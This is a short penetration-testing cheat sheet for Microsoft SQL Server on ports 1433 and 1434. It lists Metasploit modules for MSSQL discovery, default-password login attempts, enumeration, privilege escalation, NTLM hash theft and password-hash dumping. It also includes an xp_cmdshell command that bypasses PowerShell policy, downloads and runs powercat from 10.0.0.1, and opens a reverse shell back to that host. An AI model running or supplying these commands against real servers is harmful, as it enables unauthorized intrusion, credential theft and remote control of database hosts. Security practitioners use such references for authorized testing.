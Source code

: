 

## 1433, 1434 - SQL Server
### Metasploit
Queries the MSSQL instance for information
```
use auxiliary/scanner/mssql/mssql_ping
``` 
Default passwords
``` 
use auxiliary/scanner/mssql/mssql_login
```
Microsoft SQL Server Configuration Enumerator
```
use auxiliary/admin/mssql/mssql_enum
```
Microsoft SQL Server xp_cmdshell Command Execution
```
use auxiliary/admin/mssql/mssql_exec
```
```bash
EXEC xp_cmdshell 'powershell -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString("http://10.0.0.1:8080/powercat.ps1");powercat -c 10.0.0.1 -p 443 -e cmd'
```
Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
```
use auxiliary/admin/mssql/mssql_enum_domain_accounts
```
Microsoft SQL Server Find and Sample Data
```
use auxiliary/admin/mssql/mssql_findandsampledata
```
Microsoft SQL Server Generic Query
```
use auxiliary/admin/mssql/mssql_sql
```
MSSQL Schema Dump
```
use auxiliary/scanner/mssql/mssql_schemadump
```
Others
```
use auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli
use auxiliary/admin/mssql/mssql_enum_sql_logins
use auxiliary/admin/mssql/mssql_escalate_dbowner
use auxiliary/admin/mssql/mssql_escalate_dbowner_sqli
use auxiliary/admin/mssql/mssql_escalate_execute_as
use auxiliary/admin/mssql/mssql_escalate_execute_as_sqli
use auxiliary/admin/mssql/mssql_idf
use auxiliary/admin/mssql/mssql_ntlm_stealer
use auxiliary/admin/mssql/mssql_ntlm_stealer_sqli
use auxiliary/admin/mssql/mssql_sql_file
use auxiliary/analyze/jtr_mssql_fast
use auxiliary/scanner/mssql/mssql_hashdump
```
